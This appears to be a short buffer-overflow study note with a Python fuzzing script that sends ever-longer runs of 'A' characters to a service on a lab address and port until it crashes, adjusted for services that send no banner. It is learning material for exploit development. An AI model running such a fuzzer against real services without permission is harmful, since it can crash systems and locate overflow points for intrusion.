

Fuzzing (example2)
If when we connect with netcat there is no data to receive
but when we write data it respond to us
we can modify the Fuzzing script like that
#!/usr/bin/python
import socket
import sys
from time import sleep
buffer = 'A' * 100
while True:
try:
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
s.settimeout(2)
s.connect(('192.168.59.129',31337)) #NO s.recv after the connect
print '[*] Sending buffer with length: ' + str(len(buffer))
s.send(buffer +'\r\n')
s.recv(1024) #EDIT HERE
s.close()
sleep(2)
buffer = buffer + 'A' * 100
except:
print '[*] Crash occurred at buffer length: ' + str(len(buffer)-100)
sys.exit()